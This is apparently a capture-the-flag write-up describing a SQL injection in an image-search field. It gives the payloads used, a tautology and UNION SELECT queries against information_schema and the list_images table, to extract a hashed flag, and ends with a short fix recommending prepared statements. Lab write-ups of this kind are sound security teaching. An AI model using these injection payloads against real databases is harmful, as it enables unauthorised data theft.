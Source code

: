 ## SQL Injection

Here we can search for image.

Using a quick ```1 OR 1 = 1``` show us all the image url and title. That confirme SQL inujection is possible.   

To go futher, we gonna look for the tablename of the db's table.  
To do so we are gonna use basic SQL input using UNION to get all table_name and column : ```1 or 1 = 1 UNION select table_name, column_name FROM information_schema.columns```

![image](./Ressources/colonne_db_list_images.png)

We see here that the image are store in ```list_images```
that have 4 columns :
```
- id
- url
- title
- comment
```

So now we are looking in the comment section to look throw interessing information : 
``` 1 or 1 = 1 UNION SELECT comment, title FROM list_images```

![image2](./Ressources/flag_sql_injection_image_search.png)

Here is the flag !!!!
1928e8083cf461a51303633093573c46 have to go throw md5 and that it.

## PATCH 
Prepare the request and sanitize user input (use library to filter user input)